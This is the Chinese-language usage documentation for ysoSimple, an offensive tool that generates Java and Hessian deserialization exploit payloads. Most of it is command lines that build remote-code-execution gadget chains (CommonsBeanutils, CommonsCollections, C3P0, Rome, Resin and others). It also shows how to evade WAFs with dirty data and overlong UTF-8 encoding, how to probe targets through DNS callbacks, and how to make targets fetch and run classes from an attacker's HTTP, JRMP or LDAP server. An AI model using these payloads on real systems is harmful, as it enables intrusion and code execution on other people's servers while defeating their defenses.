# ysoSimple

## Start ysoSimple

阅读文档开始使用ysoSimple

## 1. Java原生反序列化(YsoAttack)

下面会介绍常见的利用链以及工具使用方式，后面遇到会慢慢补充

### 额外的参数

YsoAttack模块设定的额外参数：

* dirt-data-length：序列化内容增加脏数据
* utf8-bytes-mix：使用UTF-8 Overlong Encoding混淆，2字节/3字节混淆
* encode：参数值为Base64/Hex，用于编码输出
* writeToFile：将最终生成的内容写入到文件
* compress：对TemplatesImpl利用链压缩

#### dirt-data-length 添加垃圾数据

描述：将序列化对象放入ArrayList/LinkedList/HashMap/linkedHashMap/TreeMap数据类型中并在其中添加大量的垃圾字符来对抗WAF，具体原理可以学习c0ny1大师的[Java反序列化数据绕WAF之加大量脏数据](https://gv7.me/articles/2021/java-deserialize-data-bypass-waf-by-adding-a-lot-of-dirty-data/)文章。

工具：添加-dirt-data-length参数，后面的参数值跟添加垃圾字符的数量

```java
-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:auto_cmd:calc" -dirt-data-length 400
```

#### UTF8-Overlong Encoding

描述：使用UTF8-Overlong Encoding模式对Java序列化数据进行混淆，该功能可以用来绕WAF。本部分代码参考Whoopsunix师傅的[utf-8-overlong-encoding](https://github.com/Whoopsunix/utf-8-overlong-encoding)项目。

工具：添加-utf8-bytes-mix参数，后面的参数值选择2或者3，2表示使用2字节混淆，3表示3字节混淆

```java
-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:auto_cmd:calc" -utf8-bytes-mix 2
```

#### gzip 使用GZIP压缩序列化数据

描述：使用GZIPOutputStream对Java序列化数据进行Gzip压缩，有些系统漏洞利用需要Gzip压缩，比如FineReport

工具：添加-gzip参数即可，没有参数值

```java
-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:auto_cmd:calc" -gzip
```

#### encode 编码输出

描述：使用encode参数对Java序列化数据进行编码，支持Base64编码，Hex编码输出

工具：-encode="Base64" 或者 -encode="Hex" 即可

```java
-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:auto_cmd:calc" -encode "Base64"

-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:auto_cmd:calc" -encode "Hex"
```

#### TemplatesImpl 利用链压缩

描述：Java原生反序列化利用链中涉及到TemplatesImpl链的是可以进行缩短，参考4ra1n师傅的[终极Java反序列化Payload缩小技术](https://mp.weixin.qq.com/s/cQCYhBkR95vIVBicA9RR6g)和[ShortPayload](https://github.com/freeFV/ShortPayload)项目，总结就是如下缩小方式：使用ASM+Javassit操作字节码来缩小

TemplatesImpl加载的字节码缩小手段：

* ByteCodes字节码类中捕获的异常不处理
* LINENUMBER指令删除
* 使用javassist生成字节码
* 删除继承AbstractTranslet类需要重写的俩个方法(使用javassist生成的字节码自动没有重写)

TemplatesImpl链缩小手段：

* 设置_name属性是一个字符
* 其中_tfactory属性可以删除

工具：添加compress参数将会压缩TemplatesImpl利用链

```java
-m YsoAttack -g CommonsBeanutils2 -compress -a "Templateslmpl:auto_cmd:calc"
```

YsoSimple工具中`TemplatesImpl:`​命令生成的字节码类需要继承AbstractTranslet类。`Templateslmpl0:`​命令生成的字节码类不需要继承AbstractTranslet类，但是该场景下不支持compress压缩。

#### writeToFile 生成内容写入文件

描述：将YsoAttack引擎生成的序列化的数据写入到文件中

工具：添加writeToFile参数，参数值为将内容写入的文件名

```java
-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:auto_cmd:calc" -writeToFile="/tmp/CB2.ser"
```

### URLDNS

描述：检测Java反序列化漏洞是否存在，或者测试目标环境是否dns出网

工具：使用方式如下：dns域名前面需要加http://协议头

```bash
-m YsoAttack -g URLDNS -a "http://tonjwpkypp.dgrh3.cn"
```

### FindClassByBomb

描述：在不出网的情况下测试Java反序列化漏洞是否存在，或者延迟探测目标是否有某个类。使用时注意设置深度，一般定在25-28之间，太大会导致dos。具体反序列化炸弹的原理可参考c0ny1师傅的[构造java探测class反序列化gadget](https://gv7.me/articles/2021/construct-java-detection-class-deserialization-gadget/)文章。

工具：竖杠前面时类名，后面是反序列化的深度

```java
-m YsoAttack -g FindClassByBomb -a "java.lang.String|20"
```

### FindClassByBombSuid

描述：在不出网情况下测试Java反序列化漏洞是否存在，或者延迟探测目标是否有某个类。在CB依赖的15和16版本中类没有区别，但是在BeanComparator类suid不同，所以此时已经无法再只类名来延迟判断版本了，可使用javassist根据类名和serialVersionUID动态生成类然后序列化发送来探测。

工具：以竖杠来分割，参数分别为类名，suid值，探测深度。

```java
-m YsoAttack -g FindClassByBombSuid -a "org.apache.commons.beanutils.BeanComparator|1L|24"
```

### FindClassByDNS

描述：用DNS形式探测目标系统中是否存在某个类

工具：使用方式如下：竖杠前是dns地址，后面是类名，dns域名前面需要加http://协议头

```java
-m YsoAttack -g FindClassByDNS -a "http://string.dnslog.cn|java.lang.String"
```

### FindGadgetByDNS

描述：使用DNS来探测目标系统的JDK版本，操作系统版本，反序列化依赖，中间件等，参考自：[kezibei-Urldns](https://github.com/kezibei/Urldns)

工具：在冒号前面写dns的域名，冒号后写探测的内容

#### all 探测所有能探测的类

* 使用all探测 FindGadgetByDNS 能探测的所有内容

```bash
-m YsoAttack -g FindGadgetByDNS -a "string.dnslog.cn:all"
```

#### jndiall 探测jndi攻击模式的类

* 使用jndiall探测jndi攻击模式涉及的类是否存在

```bash
-m YsoAttack -g FindGadgetByDNS -a "string.dnslog.cn:jndiall"
```

#### 选择性探测类

* 可以选择性探测类，用竖杠|分割开来

```java
-m YsoAttack -g FindGadgetByDNS -a "string.dnslog.cn:Tomcat|bes|tongweb|Tomcat6|undertow"
```

**中间件**

```java
Tomcat
Tomcat6
Weblogic
WebSphere
jetty12
jetty
Glassfish
resin
undertow
Jboss
Wildfly
netty
jindie
tongweb
bes

```

**利用链**

```java
CommonsCollections13567
CommonsCollections24
CommonsBeanutils2
C3P0
AspectJWeaver
bsh
Groovy
Becl
DefiningClassLoader
Jdk7u21
JRE8u20
ROME
Fastjson
Jackson
SpringAOP
```

**JDK**

```java
jdk17_22
jdk9_22
jdk6_8
jdk6_11
jdk9_10
```

**操作系统**

```java
winlinux
```

#### 探测指定类是否存在

* 探测指定类是否存在

```java
-m YsoAttack -g FindGadgetByDNS -a "string.dnslog.cn:sun.misc.BASE64Decoder"
```

### MozillaRhino

#### MozillaRhino1

描述：通过调用TemplatesImpl的getOutputProperties方法来RCE，需要引入​rhino组件依赖，学习参考[Mozilla Rhino反序列化利用链学习](https://boogipop.com/2023/05/01/Mozilla%20Rhino%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE%E5%AD%A6%E4%B9%A0/)

工具：使用方式：

```bash
-m YsoAttack -g MozillaRhino1 -a "auto_cmd:calc"
```

#### MozillaRhino2

描述：通过调用TemplatesImpl的getOutputProperties方法来RCE，需要引入​rhino组件依赖，学习参考[Mozilla Rhino 反序列化漏洞 POC 分析](https://mp.weixin.qq.com/s/qm3mS78r43IIOHgZ-6YyGw)

工具：使用方式：

```bash
-m YsoAttack -g MozillaRhino2 -a "auto_cmd:calc"
```

### JRMP 协议打法

JRMP是RMI通信的时候使用协议，该协议传输数据时候通过Java序列化协议来操作。JRMP系列打法步骤如下：

1. 通过让目标站点反序列化JRMPListener/JRMPClient利用链
2. 攻击机直连目标或者目标反连攻击机来向目标站点传输序列化数据
3. 目标站点将该数据反序列化从而导致反序列化漏洞。

JRMP利用链的打法相当于利用JRMP协议进行二次反序列化，该利用链有以下特点：

1. 需要目标环境出网才能利用
2. 利用链短小精悍，JDK原生且因为是二次反序列化能避免初次反序列化限制
3. 有JDK版本限制，最好用的JRMPClient2也需要JDK<8u241

参考学习自：[从ysoserial讲RMI/JRMP反序列化漏洞](https://www.cnblogs.com/escape-w/p/16107675.html "发布于 2022-04-06 17:43")

#### payload.JRMPListener&exploit.JRMPClient/RMIRegistryExploit

限制：在jep290后就不能用了，JDK 7u131 JDK 8u121 以后

##### payload.JRMPListener 目标机监听

让目标机反序列化如下Payload，它将会开启2333端口监听。这个攻击主要会开启端口监听也不知道怎么关，实战中还是慎用吧

```bash
-m YsoAttack -g JRMPListener -a "2333"
```

##### JRMPClient 连接

运行下面的逻辑让Client发送CommonsBeanutils2利用链到目标机触发二次反序列化

```java
java -cp ysoSimple.jar cn.butler.yso.exploit.JRMPClient 127.0.0.1 2333 CommonsBeanutils2 "Templateslmpl:auto_cmd:calc"
```

#### payload.JRMPClient&exploit.JRMPListener

相比于上面的利用链需要目标站点开启监听端口，exploit.JRMPListener的打法只需要目标站点反连攻击机就行且在JDK中适用的版本更广。

##### exploit.JRMPListener 攻击者监听

```bash
java -cp ysoSimple.jar cn.butler.yso.exploit.JRMPListener 2333 CommonsBeanutils2 "Templateslmpl:auto_cmd:calc"
```

##### JRMPClient(jdk<8u231)

描述：在java.rmi.server.RemoteObjectInvocationHandler JEP290(8u121)默认只为RMI注册表(RMI Register层)和RMI分布式垃圾收集器(DGC层)提供了相应的内置过滤器，而最底层的JRMP是没有做过滤器的，所以使用 JRMPClient 可以绕过 JEP290 JRMPClient 反序列化漏洞点: sun.rmi.transport.StreamRemoteCall#executeCall，JRMP客户端反序列化顺序:

1. 反序列化服务端给的returnType
2. 反序列化服务端给的一个ID
3. 反序列化服务端给的报错信息(Payload位置)

限制：jdk < 8u231

```bash
-m YsoAttack -g JRMPClient -a "127.0.0.1:2333"
```

##### JRMPClient2(jdk<8u241)

描述：JRMPClient可以绕过JEP290的限制，但是在jdk8u231时候官方有了俩条修复：

1. 在RegistryImpl\_Skel#dispatch中每个case中增加了ClassCastException，执行到反序列化时因为反序列化返回的对象类型不是String而报错。
2. 在DGCImpl\_Stub#dirty之后UnicastRef.invoke之前增加了一个过滤器：`StreamRemoteCall#setObjectInputFilter`​

绕过jdk8u231的修复：在满足条件的类的readObject代码中找到同样能发起JRMP请求的地方，并且不经过DGCImpl\_Stub#dirty方法直接触发JRMP协议，找到的类就是UnicastRemoteObject

限制：jdk < 8u241

```bash
-m YsoAttack -g JRMPClient2 -a "127.0.0.1:2333"
```

##### JRMPClient3(暂未研究)

用RMIConnectionImpl\_Stub替换RemoteObjectInvocationHandler，还没研究暂时先不写了.....

根据网上文章调用链构造代码如下：

```java
public Object getObject() throws Exception {
    String host;
    int port;
    int sep = this.address.indexOf(58);
    if (sep < 0) {
        port = new Random().nextInt(65535);
        host = this.address;
    } else {
        host = this.address.substring(0, sep);
        port = Integer.valueOf(this.address.substring(sep + 1)).intValue();
    }
    ObjID id = new ObjID(new Random().nextInt());
    TCPEndpoint te = new TCPEndpoint(host, port);
    UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
    RMIConnectionImpl_Stub obj = new RMIConnectionImpl_Stub(ref);
    return obj;
}
```

### 触发Getter方法的利用链

Java反序列化触发Getter方法进行漏洞利用是Java反序列化漏洞利用中很常见的打法，能够触发Getter方法的利用链有：

* Jackson：需要Jackson版本适合才能触发
* Fastjson：分为Fastjson1和Fastjson2利用链
* CommonsBeautils：1.5 1.6 1.7 1.8 1.9
* ....

Getter利用链的漏洞利用方式：

* JDBCAttack
* JdbcRowImpl：有条件限制，还没研究
* LdapAttribute：ldap攻击
* SignedObject：二次Java反序列化
* TemplatesImpl：加载字节码实现代码执行

能够触发Getter方法的利用链和Getter利用链的利用方式是多对多关系，所以下面的几种利用链生成方式只介绍Jackson，其他的以此类推：

#### Jackson

##### Templateslmpl 加载字节码(继承AbstractTranslet)

描述：在利用Templateslmpl利用链进行漏洞利用时候需要注意以下几点：

1. Templateslmpl加载字节码jdk编译版本<=目标环境jdk编译版本：[利用TemplatesImpl执行字节码在实战中的踩坑记录](https://y4tacker.github.io/2023/04/25/year/2023/4/%E5%88%A9%E7%94%A8TemplatesImpl%E6%89%A7%E8%A1%8C%E5%AD%97%E8%8A%82%E7%A0%81%E5%9C%A8%E5%AE%9E%E6%88%98%E4%B8%AD%E7%9A%84%E8%B8%A9%E5%9D%91%E8%AE%B0%E5%BD%95/)

    * javassist支持的字节码编译版本：主版本号49-55(jdk1.5-jdk11)
    * jdk执行字节码向下兼容，所以javassist选取最低的jdk编译版本就行
2. TemplatesImpl在JDK高板本被移除

工具：使用方式如下

```java
-m YsoAttack -g Jackson -a "Templateslmpl:auto_cmd:calc"
```

这里的auto_cmd参数可以替换为字节码执行的多种漏洞利用效果参数，详情见漏洞利用参数整理一栏。

举个Templateslmpl加载外部字节码的例子：

```java
-m YsoAttack -g Jackson -a "Templateslmpl:class_file:/tmp/KeyUtils.class"
```

##### Templateslmpl0 加载字节码(不继承AbstractTranslet)

描述：TemplatesImpl加载的字节码需要继承AbstractTranslet类，但经过yulegeyu师傅的研究通过配置TemplatesImpl对象可以让字节码无需继承AbstractTranslet也可以类加载，参考自[Java安全攻防之从wsProxy到AbstractTranslet](https://mp.weixin.qq.com/s/HuQV6PNBCW4qSKQVQg8ifA)

限制：目前ysoSimple还不支持-compress对TemplatesImpl0和其加载的字节码进行压缩，后面研究下

工具：使用`Templateslmpl0:`​加载的字节码类不需要继承AbstractTranslet类

```java
-m YsoAttack -g CommonsBeanutils1 -a "Templateslmpl0:auto_cmd:calc"
```

这里的auto_cmd参数可以替换为字节码执行的多种漏洞利用效果参数，详情见漏洞利用参数整理一栏。

##### SignedObject 二次反序列化

描述：二次反序列化打法通常都是为了避免第一层反序列化时遇到的黑名单，而SignedObject的getObject方法可以触发二次反序列化。比较经典的案例就是帆软反序列化：[帆软channel接口反序列化漏洞分析](https://forum.butian.net/share/2806)

工具：使用`SignedObject:`​参数后面跟二次反序列的利用链

```java
-m YsoAttack -g CommonsBeanutils2 -a "SignedObject:CommonsCollections6:raw_cmd:calc"
```

##### LdapAttribute LDAP注入

描述：通过LdapAttribute#getAttributeDefinition可以触发ldap注入，学习自：[Real Wolrd CTF Old System New Getter Jndi Gadget](https://y4er.com/posts/real-wolrd-ctf-old-system-new-getter-jndi-gadget/)，[rwctf-2021-old-system-writeup](https://mp.weixin.qq.com/s?__biz=MzIwMDk1MjMyMg==&amp;mid=2247486102&amp;idx=1&amp;sn=73c28a27bce548a4b9eebe3bada08c39)

限制：在LdapAttribute参数后面跟的ldap的地址必须是`ldap://127.0.0.1:1389`​，没有后缀。RealWolrd赛题是jdk1.4，在jdk1.8中也测试成功

工具：增加LdapAttribute配置参数，ldap地址后面没有后缀

```bash
-m YsoAttack -g CommonsBeanutils2 -a "LdapAttribute:ldap://127.0.0.1:1389"
```

将JNDI引擎需要这样启动，即可进行漏洞利用：

```python
-m JNDIAttack -i 127.0.0.1 -u /Basic/auto_cmd/Y2FsYw==
```

#### FastJson系列

##### FastJson1(1.x)

描述：FastJson1.x系列的利用链，通过JSONArray的toString方法来触发getter利用链

工具：支持getter系列的TemplatesImpl/TemplatesImpl0/SignedObject/LdapAttribute打法

```java
-m YsoAttack -g FastJson1 -a "Templateslmpl:auto_cmd:calc"
```

##### FastJson2(2.x)

描述：FastJson2系列的利用链，通过JSONArray的toString方法来触发getter利用链

工具：支持getter系列的TemplatesImpl/TemplatesImpl0/SignedObject/LdapAttribute打法

```bash
-m YsoAttack -g FastJson2 -a "Templateslmpl:auto_cmd:calc"
```

#### CommonsBeanutils系列

CommonsBeanutils利用链很常见但是比较麻烦的是，CB依赖版本不同时BeanComparator类的suid不同。ysoSimple支持以下几种CB依赖的利用：

|ysoSimple利用链|需要的依赖|BeanComparator suid|备注|
| -----------------------| ------------------------------------------| -----------------------| -------------------------------------------|
|CommonsBeanutils2|commons-logging，commons-beanutils:1.9.2|-2044202215314119608L|1.9 系列的BeanComparator类suid都一样|
|CommonsBeanutils2_183|commons-logging，commons-beanutils:1.8.3|-3490850999041592962L|1.7 和 1.8 类的BeanComparator类suid都一样|
|CommonsBeanutils2_16|commons-logging，commons-beanutils:1.6|2573799559215537819L|1.6 系列的BeanComparator类suid都一样|
|CommonsBeanutils2_15|commons-logging，commons-beanutils:1.5|5123381023979609048L|1.5 系列的BeanComparator类suid都一样|
|CommonsBeanutils2_110|commons-logging，commons-beanutils:1.10.0|1L|1.10系列的BeanComparator类suid都一样|

##### CommonsBeanutils2(1.9.2)

```java
-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:auto_cmd:calc"
```

##### CommonsBeanutils2_183(1.8.3)

```bash
-m YsoAttack -g CommonsBeanutils2_183 -a "Templateslmpl:auto_cmd:calc"
```

##### CommonsBeanutils2_16(1.6)

```bash
-m YsoAttack -g CommonsBeanutils2_16 -a "Templateslmpl:auto_cmd:calc"
```

##### CommonsBeanutils2_15(1.5)

```bash
-m YsoAttack -g CommonsBeanutils2_15 -a "Templateslmpl:auto_cmd:calc"
```

##### CommonsBeanutils2_110(1.10.0)

```bash
-m YsoAttack -g CommonsBeanutils2_110 -a "Templateslmpl:auto_cmd:calc"
```

#### CommonsCollections3.2.1系列

CommonsCollections利用链能被Java反序列化利用的原因是其中的Transformer系列可以被序列化并且他们重写readObject方法然后自身有对Java反射API进行封装从而导致可以被恶意利用。

##### CommonsCollections 触发TemplatesImpl利用链

描述：通过CommonsCollections依赖库中的InvokerTransformer来反射调用TemplatesImpl利用链从而触发代码执行。工具中的CommonsCollections2/CommonsCollections3/CommonsCollections4/CommonsCollections8/CommonsCollections10/CommonsCollections11/CommonsCollectionsK1都是TemplatesImpl利用链

工具：以CommonsCollections2利用链来举例

```java
-m YsoAttack -g CommonsCollections2 -a "Templateslmpl:raw_cmd:calc"
```

这里的raw_cmd参数可以替换为字节码执行的多种漏洞利用效果参数。

##### CommonsCollections InvokerTransformer构造链

描述：通过CommonsCollections依赖库中的InvokerTransformer来调用多种JavaAPI来实现漏洞利用。工具中的CommonsCollections1/CommonsCollections5/CommonsCollections6/CommonsCollections6Lite/CommonsCollections7/CommonsCollections9都是通过多种JavaAPI来实现漏洞利用

工具：以CommonsCollections1利用链来举例

```java
-m YsoAttack -g CommonsCollections1 -a "raw_cmd:calc"
```

这里的raw_cmd参数可以替换为CC链的漏洞利用效果参数。

#### CommonsCollections4系列

##### CommonsCollections4 触发TemplatesImpl利用链

描述：在CommonsCollections4依赖库中CommonsCollectionsK2利用链是通过的InvokerTransformer反射调用TemplatesImpl利用链来触发代码执行。

工具：以CommonsCollectionsK2利用链来举例

```java
-m YsoAttack -g CommonsCollectionsK2 -a "Templateslmpl:raw_cmd:calc"
```

这里的raw_cmd参数可以替换为字节码执行的多种漏洞利用效果参数。

##### CommonsCollections4 InvokerTransformer构造链

描述：通过CommonsCollections4依赖库中的InvokerTransformer来调用多种JavaAPI来实现漏洞利用。工具中的CommonsCollectionsK3/CommonsCollectionsK4都是通过多种JavaAPI来实现漏洞利用

工具：以CommonsCollectionsK3利用链来举例

```java
-m YsoAttack -g CommonsCollectionsK3 -a "raw_cmd:calc"
```

这里的raw_cmd参数可以替换为CC链的多种漏洞利用效果参数。

#### C3P0系列

C3P0依赖下的Java反序列化有3种类型的攻击链：关于C3P0的些打法可以先学习：[https://www.cnblogs.com/BUTLER/p/17473487.html](https://www.cnblogs.com/BUTLER/p/17473487.html)

* Jndi 注入：C3P01 生成序列化流比较复杂目前未集成
* URLCLassLoader 远程类加载：C3P02，C3P02_c3p0
* 不出网的Reference注入：C3P03，C3P03_c3p0

另外网上存在两种C3P0依赖，com.mchange:c3p0、c3p0:c3p0。两个C3P0都能够利用但是俩者的SUID不同。

|ysoSimple利用链|需要的依赖|PoolBackedDataSource suid|JndiRefConnectionPoolDataSource|
| -----------------| ------------------| ---------------------------| ---------------------------------|
|C3P02|com.mchange:c3p0|-2440162180985815128L<br />|6594570032105297376L|
|C3P02_c3p0|c3p0:c3p0|7387108436934414104L<br />|5807565096136484351L|

##### C3P02 远程类加载

描述：打一次后因为类已经被加载到内存中，所以如果要切换漏洞利用效果需要重新设定类名和Jar包名

工具：使用方式如下：

```bash
# com.mchange:c3p0
-m YsoAttack -g C3P02 -a "http://127.0.0.1:2333/T32150077959500.jar|T32150077959500"

# c3p0:c3p0
-m YsoAttack -g C3P02_c3p0 -a "http://127.0.0.1:2333/T32150077959500.jar|T32150077959500"
```

##### C3P03 不出网Reference注入

描述：C3P0利用链可以不出网利用，关于利用链的构造可以学习yulegeyu师傅的[JAVA反序列化之C3P0不出网利用](https://www.yulegeyu.com/2021/10/10/JAVA%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BC3P0%E4%B8%8D%E5%87%BA%E7%BD%91%E5%88%A9%E7%94%A8/)文章。所以做漏洞利用的时候可引用JNDIAttack模块的Reference本地工厂类。而因为JNDIAttack模块有些Refernce工厂类漏洞利用又是出网的(如:Snakeyaml)，所以实际攻防时还需要注意构造合适的args参数

工具：使用方式如下：参数直接写Reference打法的路由

```python
# com.mchange:c3p0
-m YsoAttack -g C3P03 -a "/TomcatBypass/auto_cmd/calc"
-m YsoAttack -g C3P03 -a "/TomcatJDBC/H2CreateAlias/auto_cmd/calc"

# c3p0:c3p0
-m YsoAttack -g C3P03_c3p0 -a "/TomcatBypass/auto_cmd/calc"
-m YsoAttack -g C3P03_c3p0 -a "/TomcatJDBC/H2CreateAlias/auto_cmd/calc"
```

## 2.Hessian反序列化(​HessianAttack)

### Hessian的知识

Hessian本身涉及多个系列(如下)：Hessian的版本在黑名单有区别，然后Hessian1和Hessian2的序列化机制略微有所区别。Hessian1是指Cacuho Hessian组件中的HessianInput和HessianOutput用的序列化机制，所以针对目标环境攻击时候要分清楚到底是Hessian1还是Hessian2，以构造不同的EXP。

* caucho-hessian1（hessian）[https://mvnrepository.com/artifact/com.caucho/hessian](https://mvnrepository.com/artifact/com.caucho/hessian)
* caucho-hessian2（hessian2）[https://mvnrepository.com/artifact/com.caucho/hessian](https://mvnrepository.com/artifact/com.caucho/hessian)
* [sofa-hessian](https://github.com/sofastack/sofa-hessian)（sofahessian）[https://mvnrepository.com/artifact/com.alipay.sofa/hessian](https://mvnrepository.com/artifact/com.alipay.sofa/hessian)
* [hessian-lite](https://github.com/apache/dubbo-hessian-lite)（hessianlite）[https://mvnrepository.com/artifact/com.alibaba/hessian-lite](https://mvnrepository.com/artifact/com.alibaba/hessian-lite)

我当时学Hessian是跟着Longofo师傅的[Hessian 反序列化及相关利用链](https://paper.seebug.org/1131/)文章学习的。

#### caucho-hessian黑名单

版本hessian-4.0.66在 `com.caucho.hessian.io.ClassFactory#isAllow(java.lang.String)`​ 下断点看看都拦截了哪些类：默认的_allowList为空，所以只会进行一层_staticDenyList的判断，后面俩个名单的判断不进行，黑名单类如下：



#### sofa-hessian黑名单

[sofa-hessian](https://github.com/sofastack/sofa-hessian)（sofahessian）[https://mvnrepository.com/artifact/com.alipay.sofa/hessian](https://mvnrepository.com/artifact/com.alipay.sofa/hessian)

* 黑名单：[https://github.com/sofastack/sofa-hessian/blob/master/src/main/resources/security/serialize.blacklist](https://github.com/sofastack/sofa-hessian/blob/master/src/main/resources/security/serialize.blacklist)

#### hessian-lite黑名单

[hessian-lite](https://github.com/apache/dubbo-hessian-lite)（hessianlite）[https://mvnrepository.com/artifact/com.alibaba/hessian-lite](https://mvnrepository.com/artifact/com.alibaba/hessian-lite)

* 黑名单：[https://github.com/apache/dubbo-hessian-lite/blob/master/hessian-lite/src/main/resources/DENY_CLASS](https://github.com/apache/dubbo-hessian-lite/blob/master/hessian-lite/src/main/resources/DENY_CLASS)



### 额外的参数

HessianAttack模块设定的额外参数：

* hessianType：指定Hessian序列化的版本，参数为Hessian1或Hessian2
* hessianExcept：用于构造Hessian Except toString利用链
* utf8-bytes-mix：使用UTF-8 Overlong Encoding混淆序列化数据
* dirt-data-length：在序列化内容增加脏数据
* encode：序列化数据进行编码输出，Base64/Hex编码
* writeToFile：将最终生成的内容写入到文件

#### HessianType Hessian类型

描述：Hessian分为Hessian1和Hessian2，俩种序列化和反序列化协议有所差别

工具：-hessianType后面跟Hessian1或者Hessian2

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:jndi:ldap://127.0.0.1:1389" -hessianType "Hessian1"

-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:jndi:ldap://127.0.0.1:1389" -hessianType "Hessian2"
```

#### Except Gadget 构造Except触发

描述：Hessian Except toString利用链构造，在利用链序列化数据前面加67。Caucho Hessian1的except方法中没有触发Object的toString，所以它不存在Hessian Except toString打法。关于Hessian Except的利用链原理可以学习[Apache Dubbo Hessian2 异常处理时反序列化（CVE-2021-43297）](https://paper.seebug.org/1814/)​

工具：-hessianExcept参数后面无参数值

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:jndi:ldap://127.0.0.1:1389" -hessianType "Hessian2" -hessianExcept
```

#### UTF8-Overlong Encoding

描述：Hessian序列化可使用UTF8-Overlong Encoding绕WAF，学习自:[Hessian UTF-8 Overlong Encoding](https://exp10it.io/2024/02/hessian-utf-8-overlong-encoding/)

工具：-utf8-bytes-mix参数后面无数据，

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:jndi:ldap://127.0.0.1:1389" -hessianType "Hessian1" -utf8-bytes-mix

-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:jndi:ldap://127.0.0.1:1389" -hessianType "Hessian2" -utf8-bytes-mix
```

#### dirt-data-length 添加脏数据

描述：Hessian序列化增加脏数据来绕WAF

工具：dirt-data-length参数后面是脏数据的数量

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:jndi:ldap://127.0.0.1:1389" -hessianType "Hessian1" -dirt-data-length 1000

-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:jndi:ldap://127.0.0.1:1389" -hessianType "Hessian2" -dirt-data-length 1000
```

#### writeToFile 写入到文件

描述：将序列化后的数据写入到文件

工具：-writeToFile参数后面追加文件名

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:jndi:ldap://127.0.0.1:1389" -hessianType="Hessian2" -writeToFile="/tmp/hessian.ser"
```

### Rome2 打JavaJava反序列化

描述：利用Rome2利用链打Java反序列化

工具：-a后面的参数部分跟着Java的序列化利用链配置。

```bash
-m HessianAttack -g Rome2 -a "CommonsCollections6:raw_cmd:calc" -hessianType="Hessian2"
```

### Resin URLClassLoader远程类加载

描述：利用Resin利用链进行远程类远程RCE

工具：URLClassLoader远程类加载，前面是远程类加载的类名，后面是地址(http后面不能少反斜杠`/`​

```bash
-m HessianAttack -g Resin -a "EvilCalcClass:http://127.0.0.1:8099/" -hessianType="Hessian2"
```

### Hessian LazyValue利用链

#### LazyValue利用链利用说明

Hessian LazyValue的利用链学习自[Apache Dubbo Hessian2 异常处理时反序列化(CVE-2021-43297)](https://paper.seebug.org/1814/)，通过Hessian在反序列化处理时遇到畸形的流会触发某个类toString方法。通常来说toString方法又可以触发一些类的getter方法从而导致恶意利用。

